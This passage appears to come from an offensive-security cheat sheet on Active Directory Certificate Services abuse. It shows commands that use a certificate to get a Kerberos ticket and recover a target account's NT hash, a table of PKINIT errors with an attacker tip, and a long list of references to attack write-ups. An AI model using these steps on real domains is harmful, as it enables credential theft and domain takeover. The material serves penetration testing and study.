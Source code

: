 * Linux

    ```ps1
    # Obtain a TGT by validating a PKINIT pre-authentication
    $ gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
    
    # Use the session key to recover the NT hash
    $ export KRB5CCNAME="TGT_CCACHE_FILE" getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
    ```

## Common Error Messages

| Error Name | Description |
| ---------- | ----------- |
| `CERTSRV_E_TEMPLATE_DENIED` | The permissions on the certificate template do not allow the current user to enroll |
| `KDC_ERR_INCONSISTENT_KEY_PURPOSE` | Certificate cannot be used for PKINIT client authentication |
| `KDC_ERROR_CLIENT_NOT_TRUSTED` | Reserved for PKINIT. Try to authenticate to another DC |
| `KDC_ERR_PADATA_TYPE_NOSUPP` | KDC has no support for padata type. CA might be expired |

`KDC_ERR_PADATA_TYPE_NOSUPP` error still allow the attacker to use the certificate with the Pass-The-Cert. Since the DC's LDAPS service only check the SAN.

## References

* [Access controls - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs/access-controls)
* [AD CS Domain Escalation - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#shell-access-to-adcs-ca-with-yubihsm-esc12)
* [AD CS relay attack - practical guide - 23 Jun 2021 - @exandroiddev](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/)
* [AD CS: from ManageCA to RCE - 11 February, 2022 - Pablo Martínez, Kurosh Dabbagh](https://www.blackarrow.net/ad-cs-from-manageca-to-rce/)
* [AD CS: weaponizing the ESC7 attack - Kurosh Dabbagh - 26 January, 2022](https://www.blackarrow.net/adcs-weaponizing-esc7-attack/)
* [AD CS/PKI template exploit via PetitPotam and NTLMRelayx, from 0 to DomainAdmin in 4 steps by frank | Jul 23, 2021](https://www.bussink.net/ad-cs-exploit-via-petitpotam-from-0-to-domain-domain/)
* [ADCS Attack Paths in BloodHound — Part 2 - Jonas Bülow Knudsen - May 1, 2024](https://posts.specterops.io/adcs-attack-paths-in-bloodhound-part-2-ac7f925d1547)
* [ADCS ESC13 Abuse Technique - Jonas Bülow Knudsen - 02/15/2024](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)
* [ADCS ESC14 Abuse Technique - Jonas Bülow Knudsen - 02/01/2024](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9)
* [ADCS ESC14 Abuse Technique - Jonas Bülow Knudsen - February 28, 2024](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9)
* [ADCS Exploitation Part 2: Certificate Mapping + ESC15 - Giulio Pierantoni - Oct 10, 2024](https://medium.com/@offsecdeer/adcs-exploitation-series-part-2-certificate-mapping-esc15-6e19a6037760)
* [ADCS: Playing with ESC4 - Matthew Creel](https://www.fortalicesolutions.com/posts/adcs-playing-with-esc4)
* [bloodyAD and CVE-2022-26923 - soka - 11 May 2022](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)
* [CA configuration - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs/ca-configuration)
* [Certificate templates - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ad-cs/certificate-templates)
* [Certificates and Pwnage and Patches, Oh My! - Will Schroeder - Nov 9, 2022](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d)